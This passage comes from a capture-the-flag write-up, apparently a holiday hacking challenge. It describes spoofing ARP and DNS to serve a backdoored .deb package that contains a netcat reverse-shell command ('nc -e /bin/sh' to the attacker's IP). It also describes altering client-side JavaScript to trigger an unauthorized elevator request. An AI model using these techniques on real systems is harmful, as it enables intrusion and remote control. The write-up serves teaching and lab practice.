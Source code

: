 ```python
    main()
```

After responding to both the ARP and DNS requests, you see a bunch of TCP traffic come in. Most of it is TLS negotiation, and some encrypted traffic after that negotiation. However, there is a single HTTP packet to port 80. 

We can start a `simplehttpserver` using python in our `./debs` directory to serve out some content. From the logs, we can see that the client is requesting a specific `.deb` in a specific path:
```
10.6.6.35 - - [17/Dec/2020 21:01:09] code 404, message File not found
10.6.6.35 - - [17/Dec/2020 21:01:09] "GET /pub/jfrost/backdoor/suriv_amd64.deb HTTP/1.1" 404 -
```

We can simply make the directory structure using `mkdir` and rename one of our `.deb` files to `suriv_amd64.deb` and it seems like the target machine will install it. 

I used the netcat `.deb` file, but added a custom bind command into it:
```
nc -e /bin/sh <my_ip> 4444
```

Now, whenever that `.deb` is installed, that command will be executed also. I just need to start a `netcat` listener on my end:
```
nc -nllvp 4444
```

And a shell is obtained! From there, it is a simple inspection of the document sitting on `/` that states the answer: 
```
Tanta Kringle
```



# Objective 10
In order to obtain access to Santa's office, I modified the `app.js` to send the success/transport to floor 3 message via AJAX whenever the `reset` button was clicked. 

The modified code snippet is as follows:
```javascript
const resetBtn = document.querySelector('.reset-btn');
resetBtn.addEventListener('click', () => {
  if (window.confirm('Are you sure you want to reset your configuration?')) {
    $.ajax({
    type: 'POST',
    url: POST_URL,
    dataType: 'json',
    contentType: 'application/json',
    data: JSON.stringify({
      targetFloor: '3',
      id: getParams.id,
    }),
    success: (res, status) => {
      if (res.hash) {
        __POST_RESULTS__({
          resourceId: getParams.id || '1111',
          hash: res.hash,
          action: 'goToFloor-3',
      });
    }
   }
 }); }
});
```
